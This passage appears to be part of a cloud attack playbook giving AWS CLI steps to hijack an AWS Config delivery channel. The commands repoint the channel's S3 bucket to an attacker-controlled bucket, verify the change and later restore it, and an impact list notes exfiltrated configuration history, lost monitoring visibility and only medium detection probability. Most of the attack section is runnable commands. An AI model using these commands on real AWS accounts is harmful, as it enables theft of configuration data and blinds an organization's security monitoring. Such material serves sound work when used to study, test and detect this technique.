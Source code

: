 ```bash
aws configservice describe-delivery-channels
```

**Expected Output:**
```json
{
    "DeliveryChannels": [
        {
            "name": "default",
            "s3BucketName": "company-config-logs",
            "configSnapshotDeliveryProperties": {
                "deliveryFrequency": "TwentyFour_Hours"
            }
        }
    ]
}
```

Note the `name` from the output (e.g., "default").

#### 2. Execute the Hijack

This command replaces the existing channel's S3 bucket with your own:

```bash
aws configservice put-delivery-channel \
  --delivery-channel name=default,s3BucketName=your-attacker-controlled-bucket
```

**With S3 Key Prefix:**
```bash
aws configservice put-delivery-channel \
  --delivery-channel name=default,s3BucketName=your-attacker-controlled-bucket,s3KeyPrefix=exfiltrated-logs
```

#### 3. Verify the Change

```bash
aws configservice describe-delivery-channels | \
  jq '.DeliveryChannels[] | {name, s3BucketName}'
```

**Impact:**
- All future Config snapshots delivered to your bucket
- Configuration history data exfiltrated
- Legitimate monitoring team loses visibility
- **Medium detection probability** - may not trigger immediate alerts

#### 4. Cleanup (Restore Original Channel)

```bash
aws configservice put-delivery-channel \
  --delivery-channel name=default,s3BucketName=original-bucket-name
```

---
